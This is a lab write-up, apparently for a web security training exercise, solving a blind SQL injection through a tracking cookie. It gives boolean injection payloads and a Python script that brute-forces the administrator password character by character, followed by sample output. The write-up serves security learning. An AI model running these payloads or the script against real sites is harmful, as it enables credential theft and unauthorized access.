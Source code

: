 ### Eleven Exercise 👆


![problem.PNG](/assets/SQLi/Eleven/problem.PNG)


#### **To do**

```
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.   
```

1. Should use a cookie to execute SQL Injection
![cookie.PNG](/assets/SQLi/Eleven/cookie.PNG)

* The problem informs us that we will be blind, then, if the query is wrong or accert we will not be informed.
* A message **Welcome back!** is util to know if the query is accert.

2. Know if exist **administrator user**
```sql
' or (select substring(username,1,1) from users where username = 'administrator') = 'a
```
* Do this to know if exist a username start with letter 'a


3. Find the lenght of password
```sql
' or (select substring(password,1,1) from users where username = 'administrator' and length(password)>=20) = 'a
```

* Use `length(password)` to discover length of password field, do this until the message "Welcome back!" not appear.

* In my case the length is **20**



4. To discover the password we need to create a program in python to iterate each position:


```python
#!/usr/bin/python3

from pwn import *
import requests, time, string, signal, sys


def handler_stop(sig, frame):
        print("\n\n[!] Exiting... Bye")
        sys.exit(1)

def make_request():
    url = "<url of web page>"
    characteres = string.ascii_lowercase + string.digits
    password = ""
    bar_1 = log.progress("Brute Force")
    bar_1.status("Starting Brute Force...")
    time.sleep(1)
    bar_2 = log.progress("Password")
    
    for i in range(1,21):
        for character in characteres:
            cookie = {f"TrackingId": "<your TrackingId>' and (select substring(password,{i},1) from users where username='administrator') = '{character}",
                    "session": "<your session>"
            }
            bar_1.status(cookie["TrackingId"])
            r = requests.get(url, cookies=cookie)   
            if ("Welcome back!" in r.text):
                password += character
                bar_2.status(password)
                break
#! Ctrl + C
signal.signal(signal.SIGINT, handler_stop)

if __name__ == "__main__":
    make_request()
```
* With this program we try to know the letter in each position of password length.
* In each position we try: `abcdefghijklmnopqrstuvwxyz0123456789`




**Output**
```bash
┌──(root㉿est)-[/home/kali/Desktop]
└─| python3 brute_force.py
[┬] Brute Force: 5Ey6UAGo7wYO8MBQ' and (select substring(password,20,1) from users where username='administrator') = 'v
[◑] Password: oqpz5a69kh1gyacprnav
```

5. Finally login with credentials:
* **username**: administrator
* **password**: [output program]

![login.txt](/assets/SQLi/Eleven/login.PNG)